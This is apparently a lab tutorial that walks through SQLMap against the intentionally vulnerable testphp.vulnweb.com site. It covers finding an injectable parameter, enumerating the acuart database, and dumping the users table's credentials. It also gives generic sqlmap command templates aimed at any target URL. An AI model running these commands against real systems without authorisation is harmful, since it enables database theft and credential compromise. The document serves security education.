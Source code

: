 # **SQLMap Injection: Automating SQL Injection Detection and Exploitation**

<details>
<summary><strong>SQL Injection</strong></summary>
SQL injection is a security vulnerability found in web applications that allow attackers to interfere with the queries that an application makes to its database. It arises when user inputs are unsafely processed and concatenated into SQL queries, enabling attackers to manipulate the intended query structure. Through SQL injection, attackers can execute unauthorized SQL commands, access sensitive data, modify data, or even delete entire databases.When exploited, SQL injection can have severe consequences, compromising the confidentiality, integrity, and availability of data. Attackers can bypass authentication, extract sensitive information such as usernames, passwords, or credit card details, manipulate data, and potentially cause a complete system compromise.
</details>

<details>
<summary><strong>SQLMap</strong></summary>
SQLMap is a powerful open-source penetration testing tool designed to automate the process of detecting and exploiting SQL injection vulnerabilities in web applications. It assists security professionals and ethical hackers in identifying and leveraging SQL injection flaws by automating the process of testing and exploiting potential vulnerabilities. SQLMap is a pre-installed tool in Kali Linux, typically available in the system; if not present, it can be installed using commands:  
  
```bash
sudo apt-get install sqlmap
```
</details>

## Vulnweb Overview

Vulnweb.com hosts intentionally vulnerable web applications that facilitate understanding programming and configuration errors leading to security breaches. It serves as a practical platform for testing security tools like Acunetix or performing manual penetration testing for educational purposes. The site encompasses various applications intentionally designed with vulnerabilities like SQL Injection, Cross-site Scripting (XSS), Cross-site Request Forgery (CSRF), among others.

### Websites under Vulnweb.com
-----------------------------------------------------------------------------------------
| Name           | URL                              | Technologies                      |
|----------------|----------------------------------|-----------------------------------|
| SecurityTweets | http://testhtml5.vulnweb.com     | nginx, Python, Flask, CouchDB     |
| Acuart         | http://testphp.vulnweb.com       | Apache, PHP, MySQL                |
| Acuforum       | http://testasp.vulnweb.com       | IIS, ASP, Microsoft SQL Server    |
| Acublog        | http://testaspnet.vulnweb.com    | IIS, ASP.NET, Microsoft SQL Server| 
| REST API       | http://rest.vulnweb.com/         | Apache, PHP, MySQL                | 
-----------------------------------------------------------------------------------------
### Using Acuart for SQL Injection

Acuart (http://testphp.vulnweb.com) is an intentionally vulnerable web application under Vulnweb.com, utilizing Apache, PHP, and MySQL technologies. So, for SQL injection,this can be use as testing ground.

## 1. SQLMap Basic Parameter 
-------------------------------------------------------------------------------------------------------------------------------
| Parameter    | Description                                                                                                  |
|--------------|--------------------------------------------------------------------------------------------------------------|
| `-u`         | Target URL or web application where the SQL injection attack will be performed.                              |
| `--dbs`      | Command to fetch and display available databases present on the target server.                               |
| `-D`         | Specifies the name of the database to be targeted for enumeration or exploitation.                           |
| `--tables`   | Retrieves and displays the list of tables within a specified database.                                       |
| `-T`         | Specifies the name of the table to perform actions such as data retrieval or exploitation.                   |
| `--columns`  | Fetches and lists the columns available within a specified table.                                            |
| `-C`         | Specifies the column name(s) from which data needs to be retrieved or exploited.                             |
| `--dump`     | Command to extract and display the content of the specified column(s) from a table.                          |
-------------------------------------------------------------------------------------------------------------------------------

- Command to identify databases on the target server
```bash
sqlmap -u http://targetwebsite.com --dbs
```

- Command to enumerate tables in a specific database
```bash
sqlmap -u http://targetwebsite.com -D database_name --tables
```


- Command to list columns in a table
```bash
sqlmap -u http://targetwebsite.com -D database_name -T table_name --columns
```

- Command to extract data from a specific column in a table
```bash
sqlmap -u http://targetwebsite.com -D database_name -T table_name -C column_name --dump
```

## 2. Identifying Vulnerable Parameters
The first step in conducting SQL injection involves identifying vulnerable parameters within a web application.SQL injection vulnerabilities can be discover by testing the URL parameter `php?id=` to test for potential injection points.

```plaintext
site:http://testphp.vulnweb.com/ php?id=
```

When performing a search with the query `site:http://testphp.vulnweb.com/ php?id=` you were directed to a specific page on the website `http://testphp.vulnweb.com`. The URL you encountered was `http://testphp.vulnweb.com/artists.php?artist=1` .

This URL indicates that you were redirected to a page named artists.php on the website. Within the URL, the parameter artist=1 is present. This parameter (artist) is one of the points within the website that is potential vulnerable for SQL injection vulnerabilities.

## 3. SQLMap Database Enumeration
After identifying the potentially vulnerable parameter (artist=1) , proceed to use SQLMap, a tool for automating SQL injection detection and exploitation.The command `sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --dbs` was executed. This command instructs SQLMap to target the URL and perform a database enumeration `--dbs`, seeking to retrieve available database names from the targeted website.The result showed the enumeration of two available databases:

- `acuart`<br>
- `information_schema`<br>

These are the databases detected by SQLMap on the targeted website.

## 4. SQLMap Database Tables Enumeration
Executing the command `sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart --tables` aimed at discovering tables within the ***acuart*** database resulted in the following tables:

-------------
| 8 tables  |
|-----------|
| artists   |
| carts     |
| categ     |
| featured  |
| guestbook |
| pictures  |
| products  |
| users     |
-------------

This enumeration identified a total of 8 tables within the ***acuart*** database on the targeted website.

## 5. SQLMap Column Information
Following the database and table enumeration, the SQLMap command `sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users --columns` was executed. This command was intended to gather information about columns within the users table of the acuart database.
The result provided details about the columns present within the users table:


---------------------------
| Column   | Type         |
|----------|--------------|
| name     | varchar(100) |
| address  | mediumtext   |
| cart     | varchar(100) |
| cc       | varchar(100) |
| email    | varchar(100) |
| pass     | varchar(100) |
| phone    | varchar(100) |
| uname    | varchar(100) |
---------------------------

This output signifies the column names and their respective data types within the users table in the ***acuart*** database.


## 6. SQLMap Data Retrieval
The SQLMap commands were employed to extract information from the username and password columns in the ***users*** table.
### Retrieval of Username (**uname**):

```bash
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C uname --dump
```
Upon executing the command to retrieve the ***uname*** column, and the result show that the username stored in the database is `test`.

### Retrieval of Password (**pass**):

``` bash
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C pass --dump
```
Similarly, when the command targeted the ***pass*** column, it show that password stored in the database is also `test`.

Both the `uname` (username) and `pass` (password) columns retrieved the value `test`, suggesting that these credentials as both username and password By leveraging the SQLMap tool to perform SQL injection on the website, we successfully retrieved the username and password. This indicates that `test` can serve as both the username and password for logging into the website using these credentials.

